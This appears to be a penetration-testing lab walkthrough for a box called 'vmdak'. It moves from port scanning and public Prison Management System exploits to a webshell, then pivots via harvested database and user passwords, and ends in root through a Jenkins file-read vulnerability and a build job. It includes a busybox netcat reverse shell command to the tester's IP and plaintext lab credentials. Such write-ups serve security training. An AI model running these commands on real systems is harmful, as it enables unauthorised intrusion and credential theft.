 # vmdak

i start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

The port 9443 says it's http but there is a SSL problem so we need to add the domain in etc hosts and request the website using https and then we see this:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

I look at some known exploits for this framework, click on admin dashboard and see this:

{% embed url="https://www.exploit-db.com/exploits/52017" %}

so i try it out:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

and i manage to get in:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the box is very laggy and i have to wait 5min + for one request so i will come back later

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Ok so after looking for fast5 exploit me saw that this was called Prison Management System so i looked up known exploits that could lead to code execution and saw this article:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:179737" %}

So i go and create a new user:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i capture the post request:

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

and we got ourselves a webshell:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

and we manage to get a reverse shell with a busybox nc command:

```
busybox nc 192.168.45.245 80 -e sh
```

I try plenty of privesc but don't find anything so i suppose i need to pivot to user vmdak and start looking for credentials and find something in the database folder:

<figure><img src="../../../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

```
root:sqlCr3ds3xp0seD
```

but it's not the password of root so i guess that i need to enumerate some sort of mysql service?

```
mysql -u root -p
```

and then we find this password:

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption><p>RonnyCache001</p></figcaption></figure>

The only user is vmdak and root so i'll try for those users:

<figure><img src="../../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

So it's the password of user vmdak, nice

ran some linpeas and pspy and found nothing but this seemed interesting:

<figure><img src="../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

Ok so since i have ssh access to user vmdak i can redirect the jenkins server on my local port :

```
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103
```

So if i visit my [http://127.0.0.1:9999](http://127.0.0.1:9999) i'll see the jenkins server:

<figure><img src="../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

So i tried accessing this CLI but failed so i looked at some file read vulns for jenkins:&#x20;

{% embed url="https://medium.verylazytech.com/cve-2024-23897-jenkins-file-read-vulnerability-poc-6a1dfdbfd6f2" %}

<figure><img src="../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

and i manage to connect:&#x20;

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins" %}

So i create a random job that executes a reverse shell once it's build:

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

i save and build and get my shell:

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
